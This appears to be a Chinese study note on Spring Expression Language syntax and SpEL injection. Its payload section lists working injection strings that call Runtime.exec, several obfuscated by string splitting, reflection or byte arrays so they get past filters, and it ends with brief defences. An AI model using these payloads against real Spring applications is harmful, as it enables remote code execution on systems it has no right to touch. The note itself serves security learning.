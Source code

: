 # SpEL参考文档
- https://cloud.tencent.com/developer/article/1676200
- https://www.cnblogs.com/xfeiyun/p/16914131.html
- https://juejin.cn/post/7117839866523549710#heading-2
# AOP讲解
- https://www.liaoxuefeng.com/wiki/1252599548343744/1266265125480448
- https://pdai.tech/md/spring/spring-x-framework-aop.html#google_vignette

# SpEl + AOP 实现日志记录
- https://blog.csdn.net/ke7025/article/details/122185525

# SpEL 注入
https://www.kingkk.com/2019/05/SPEL%E8%A1%A8%E8%BE%BE%E5%BC%8F%E6%B3%A8%E5%85%A5-%E5%85%A5%E9%97%A8%E7%AF%87/

# SpEL表达式 #{} 和 {} 和 # 和 '' 的使用
1. #{} 表达式
   #{} 用于在 Spring 配置文件中表示需要解析的 SpEL 表达式。主要用于注解、XML 配置和属性文件中，通常在需要动态计算的场景下使用。
```java 
@Value("#{systemProperties['user.home']}")
private String userHome;
```
2. `#` 符号   
`#` 符号在 SpEL 表达式中用于引用变量或方法。通常在解析上下文中使用，以引用方法、属性或在表达式中定义的变量。
```java 
SpelExpressionParser parser = new SpelExpressionParser();
StandardEvaluationContext context = new StandardEvaluationContext();
context.setVariable("number", 42);

Integer number = parser.parseExpression("#number").getValue(context, Integer.class);
```
3. ` '' `字符串  
   用于在 SpEL 表达式中表示字符串文字。字符串文字在 SpEL 表达式中必须用单引号括起来，以区分其他类型的值（如数字、变量等）。
```java 
SpelExpressionParser parser = new SpelExpressionParser();
String result = parser.parseExpression("'Hello ' + 'World'").getValue(String.class);
```
4. `{}`   
    花括号 {} 通常用于在集合、数组或映射中表示集合字面量。以下是一些具体的用法和示例。
# Spel注入  
存在Spel注入的前提是存在SpEl相关的库，如下是相关的库
```java
org.springframework.expression.spel.standard
SpelExpressionParser
parseExpression
expression.getValue();
expression.setValue();
```
 SpEl解析SpEL提供了两套不同的接口，分别是"SimpleEvaluationContext"和"StandardEvaluationContext"。其中"SimpleEvaluationContext" 
 仅支持简单的表达式，抛弃了Java类型引用，构造函数，相较比较安全。而"StandardEvaluationContext" 支持复杂的表达式，如方法调用、属性访问等。
 如果在不指定EvaluationContext的情况下，SpEl默认使用"StandardEvaluationContext"。
 ```java
// 执行exec
T(java.lang.Runtime).getRuntime().exec("calc.exe");
#this.getClass().forName("java.lang.Runtime").getRuntime().exec("calc.exe");

```

## 构造payload
```java
T(java.lang.Ru" + "ntime).getRuntime().exec('calc');
String spel = "T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\").getMethod(\"ex\"+\"ec\",T(String[]))" +".invoke(T(String).getClass().forName(\"java.l\"+\"ang.Ru\"+\"ntime\")" +".getMethod(\"getRu\"+\"ntime\").invoke(T(String).getClass()" +".forName(\"java.l\"+\"ang.Ru\"+\"ntime\")),new String[]{\"cmd\",\"/C\",\"calc\"})\n";
new javax.script.ScriptEngineManager().getEngineByName("javascript").eval("java.lang.Runtime.getRuntime().exec('calc')")";
T(java.lang.Runtime).getRuntime().exec("calc")
T(java.lang.Runtime).getRuntime().exec(new String(new byte[]{0x63,0x61,0x6c,0x63}))
```

# Spel 防御
##  使用 SimpleEvaluationContext
```java
SpelExpressionParser parser = new SpelExpressionParser();
SimpleEvaluationContext context = SimpleEvaluationContext.forReadOnlyDataBinding().build();
expression.setValue(context, "payload");
```

##  白名单过滤
略

